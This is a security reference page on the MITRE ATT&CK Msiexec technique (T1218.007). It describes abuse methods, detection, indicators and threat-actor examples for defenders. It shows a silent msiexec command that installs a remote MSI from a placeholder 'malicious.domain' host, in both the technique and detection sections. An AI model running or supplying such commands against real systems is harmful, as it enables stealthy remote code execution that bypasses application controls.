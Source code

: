 ```yaml
---
description: Msiexec [T1218.007]
icon: lock
---
```


# Msiexec

## Information

* Name: Msiexec
* ID: T1218.007
* Tactics: [TA0005](../)
* Technique: [T1218](./)

## Introduction

Msiexec (T1218.007) is a sub-technique under the MITRE ATT\&CK framework's Signed Binary Proxy Execution (T1218) technique. Attackers leverage the legitimate Windows Installer executable "msiexec.exe" to execute malicious payloads, bypass application control measures, and evade detection. Because msiexec.exe is a trusted and digitally signed Windows binary, adversaries exploit this trust to mask their malicious activities.

## Deep Dive Into Technique

The Msiexec utility is a built-in Windows application responsible for installing, modifying, and uninstalling Windows Installer packages (.msi files). Attackers abuse this legitimate functionality to execute malicious code by embedding payloads within installer packages or by passing specially crafted command-line arguments.

Technical details of execution methods:

* **Direct Execution of Malicious MSI Files**:
  * Attackers craft malicious MSI installer packages containing embedded payloads or scripts.
  *   Execute using command-line:

      ```
      msiexec.exe /i malicious.msi /quiet
      ```
  * The `/quiet` flag suppresses user interaction, allowing stealthy execution.
* **Remote Execution via URLs**:
  *   Msiexec can download and execute MSI files directly from remote locations:

      ```
      msiexec.exe /i http://malicious.domain/payload.msi /quiet
      ```
  * This method eliminates the need to store payloads locally, reducing forensic artifacts.
* **Embedding Scripts and Commands**:
  * Attackers can embed custom scripts (VBScript, JScript) within MSI files.
  * Upon installation, these scripts execute malicious commands or download secondary payloads.
* **DLL Side-loading via MSI**:
  * Attackers leverage MSI installers to perform DLL side-loading attacks, loading malicious DLLs via trusted binaries.

Real-world procedures often involve:

* Social engineering to trick users into executing malicious MSI files.
* Phishing campaigns distributing malicious MSI attachments or URLs.
* Exploitation of compromised supply chains to distribute malicious MSI installers.

## When this Technique is Usually Used

Attackers typically employ Msiexec (T1218.007) during various stages of the attack lifecycle:

* **Initial Access**:
  * Phishing emails containing malicious MSI attachments or links.
  * Malicious software downloads from compromised websites or software repositories.
* **Execution**:
  * Direct execution of malicious MSI files to run payloads on target systems.
  * Remote MSI execution to avoid local file detection and analysis.
* **Defense Evasion**:
  * Leveraging trusted binaries and legitimate installer processes to bypass security controls, application whitelisting, and endpoint detection solutions.
* **Persistence**:
  * Installing malicious software or scripts that establish persistent footholds through MSI packages.
* **Privilege Escalation**:
  * Abuse of MSI installers that run with elevated privileges to escalate attacker privileges.

## How this Technique is Usually Detected

Detection methods and tools commonly used to identify Msiexec abuse include:

* **Command-line Monitoring**:
  * Monitoring execution of msiexec.exe with suspicious flags or remote URLs.
  *   Example suspicious command:

      ```
      msiexec.exe /i http://malicious.domain/payload.msi /quiet
      ```
* **Endpoint Detection and Response (EDR)**:
  * EDR solutions monitor and analyze process executions, command-line arguments, and behaviors of msiexec.exe.
  * Detecting anomalous parent-child process relationships involving msiexec.exe.
* **Network Traffic Analysis**:
  * Monitoring network traffic for unusual MSI file downloads from external or unknown domains.
  * Detecting unusual HTTP requests initiated by msiexec.exe.
* **File Integrity Monitoring (FIM)**:
  * Monitoring MSI files created or modified in unusual directories or at unexpected times.
* **Behavioral Analytics and SIEM Correlation**:
  * SIEM tools correlate events involving msiexec.exe executions with other suspicious activities and indicators.

Common Indicators of Compromise (IoCs):

* Suspicious MSI file hashes identified by threat intelligence feeds.
* Unfamiliar or unsigned MSI installer files.
* Network connections initiated by msiexec.exe to untrusted or malicious domains.
* Unusual msiexec.exe executions outside normal software installation periods or processes.

## Why it is Important to Detect This Technique

Early detection of Msiexec abuse is crucial due to the potential severity of impacts:

* **Initial Compromise and Malware Installation**:
  * Attackers can quickly establish footholds, leading to advanced persistent threats (APTs), ransomware infections, or data exfiltration.
* **Bypassing Security Controls**:
  * Msiexec is a trusted Windows binary, allowing attackers to bypass application whitelisting, endpoint protection, and antivirus solutions, facilitating stealthy and persistent attacks.
* **Privilege Escalation and Lateral Movement**:
  * Misuse of MSI installers may lead to privilege escalation, enabling attackers to gain administrative control and propagate deeper into networks.
* **Data Breach and Exfiltration**:
  * Attackers leveraging this technique can deploy tools that exfiltrate sensitive data, leading to significant financial and reputational damage.
* **Operational Disruption**:
  * Malicious MSI installers can deploy ransomware or destructive malware, causing severe operational disruptions and downtime.

Proactive detection minimizes the attacker's dwell time, reduces potential damage, and enhances an organization's overall security posture.

## Examples

Real-world examples and attack scenarios illustrating Msiexec abuse:

* **APT Groups (Advanced Persistent Threats)**:
  * Several nation-state threat actors have leveraged malicious MSI installers in targeted espionage campaigns. For example, APT29 (Cozy Bear) has used MSI files containing malicious payloads in spear-phishing campaigns to gain initial access and persistence.
* **FIN7 Cybercrime Group**:
  * FIN7 has distributed malicious MSI files via spear-phishing emails masquerading as legitimate software updates or invoices. Upon execution, these MSI files deploy malware such as Carbanak for financial fraud and data theft.
* **Ransomware Campaigns**:
  * Ransomware operators distribute malicious MSI files via phishing emails or compromised websites. MSI installers silently deploy ransomware payloads, encrypting victim data and demanding ransom payments.
* **Supply Chain Attacks**:
  * Attackers compromise legitimate software distribution channels, embedding malicious MSI installers within legitimate software updates. Users unknowingly execute these malicious MSI files, providing attackers widespread access.

Tools commonly associated with this technique:

* **Advanced Installer, WiX Toolset, Orca**:
  * Legitimate, freely available tools attackers abuse to craft malicious MSI installers.
* **Metasploit Framework**:
  * Attackers use Metasploit to generate malicious MSI payloads for penetration testing or malicious attacks.

Impacts observed in real-world scenarios:

* Financial losses due to data breaches and ransomware infections.
* Compromise of sensitive intellectual property and confidential data.
* Reputational damage resulting from publicized security incidents.
* Operational disruptions and downtime due to malware infections and remediation efforts.
